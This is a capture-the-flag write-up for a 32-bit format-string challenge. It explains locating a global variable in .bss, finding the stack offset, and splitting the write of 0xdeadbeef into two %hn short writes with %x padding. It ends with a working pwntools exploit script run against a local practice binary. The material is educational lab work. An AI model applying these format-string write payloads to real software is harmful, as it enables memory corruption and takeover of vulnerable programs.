

# Gathering Information
the challenge provides a binary,it's source code and a netcat service.
- the binary is ELF 32bit mode.
- like the Format String 1 challenge, this challenge prints the flag only if the target_variable value = 0xdeadbeef
# Exploitation
- we have to chain a payload that overwrites the target_variable
- find the address of target_variable
- find the offset to the the first 4 bytes to overwrite
- write 0xdeadbeef in target_value
## Finding the address of target_variable
target_variable is a global variable, and since it's not initialized , it's in the .bss section.
the address is : 0x0804c034 (same address as the previous challenge)
## Finding Offset
the address is the 4th address in the stack, to reference directly the address, we can use %4$x ( same offset from the previous challenge )

## Writing 0xdeadbeef
the format specifier %n writes how many bytes written so far, so if we want to overwrite the target with 100, we write target_address + "A"*(100-4)

the 4 bytes in ("A"*(100-4)) represents the size of the target_variable since it's counted in the payload.

the problem is that 0xdeadbeef is a very big number, so we can use %hn that write only 2 bytes in the address.

the idea is to write the (address of target) + (address of target + 2 ) + "n bytes" +  %4$hn + "m bytes" +5$hn
%4$hn will write n bytes in the lower two bytes of the target
%5$hn will write m bytes in the higher two bytes of the target

Now, how to calculate n and m ?

we want to write 0xbeef in the lower bytes, so n = 0xbeef - (4 + 4) = 48871

we want to write 0xdead in the higher bytes, so m = 0xdead - 0xbeef = 8126

Again we have another problem, the buffer size is limited to 60 bytes, so we can't write 48871 bytes as an input !!!!
that's where we use the %x format specifier, %px can be used to write p byte (padding)

so our final payload = @target + (@target+2) + %48871x" + "%4$hn" + "%8126x" + "%5$hn"
## Payload
```python
from pwn import *
context.arch = 'i386'
target_variable = 0x0804c034
p = process("./task9")
payload = b""
payload += p32(target_variable)
payload += p32(target_variable+2)
payload += b"%48871x"
payload += b"%4$hn"
payload += b"%8126x"
payload += b"%5$hn" 
#pause()
p.sendline(payload)
p.interactive()
